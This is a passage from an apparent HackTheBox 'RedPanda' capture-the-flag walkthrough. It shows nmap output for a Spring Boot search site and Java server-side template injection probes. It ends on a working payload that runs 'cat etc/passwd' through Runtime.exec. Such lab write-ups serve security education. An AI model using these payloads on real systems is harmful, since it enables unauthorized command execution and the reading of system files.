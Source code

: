 ```bash
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Wed, 24 Aug 2022 15:39:37 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Wed, 24 Aug 2022 15:39:37 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-title: Red Panda Search | Made with Spring Boot
|_http-open-proxy: Proxy might be redirecting requests
```

In nmap we can see that the port 8080 is a web server. When we reach it, it displays the following website with a browser:

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/redpanda/1_0_web.png" width="90%"/>
</p>

As seen on the title line, it is powerded by Spring Boot, therefore Java and any of their templating components might be running in the backend. Some basic [SSTI payloads for Java](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#java) backends shows us some interesting results, showing that the payload is working:


```java
@(6+5)
// Result in the website: You searched for: @?11

#{3*3}
// Result in the website: You searched for: ??9_en_US??

*{7*7}
// Result in the website: You searched for: 49
```

At the end, we spotted that the optimal expoitation payload is by using the \* before the brackets. Once we have the core exploit, we go for advance payloads, in this test I tried to execute a command, but instead of returning the output, the webserver is printing the object it returned with the process information:


```java
*{T(java.lang.Runtime).getRuntime().exec("cat etc/passwd")}
//You searched for: Process[pid=98196, exitValue="not exited"]
```

